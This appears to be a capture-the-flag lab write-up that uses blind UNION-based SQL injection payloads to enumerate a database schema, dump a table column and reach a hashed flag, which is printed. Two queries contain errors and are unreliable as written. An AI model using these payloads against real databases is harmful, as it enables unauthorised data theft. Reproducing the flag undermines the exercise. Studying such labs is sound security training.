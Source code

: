 **http://10.0.0.12/?page=searchimg**

This function is vulnerable to SQL injection although an error does not appear.
This uses similar input to that of the first SQL vulnerability that was found.

Firstly find if a vulnerability exists. Note that no response will be given.
Responses are only given to proper input.

Find the number of columns returned and the datatypes.
_1 union select null, null--_

Now get the schema for the current table. This will help with getting more information needed to get the flag.
_1 union select 1, table_name from information_schema.tables where table_schame = database()--_
_1 union select 1, column_name from information_schema.tables where table_schema = database()--_

With this new information, get the data found in the comment column of the list\_images table.
_1 union select 1, comment from list_images--_

Decode the long numerical value with a MD5 decoder to get the word 'albatroz'.
Encode it using sha256 to get the flag.

**FLAG:
F2A29020EF3132E01DD61DF97FD33EC8D7FCD1388CC9601E7DB691D17D4D6188**

https://chartio.com/learn/databases/using-information-schema-views-to-check-to-see-if-table-exists-in-sql-server/
https://cheatsheetseries.owasp.org/cheatsheets/SQL\_Injection\_Prevention\_Cheat\_Sheet.html
https://portswigger.net/web-security/sql-injection/blind
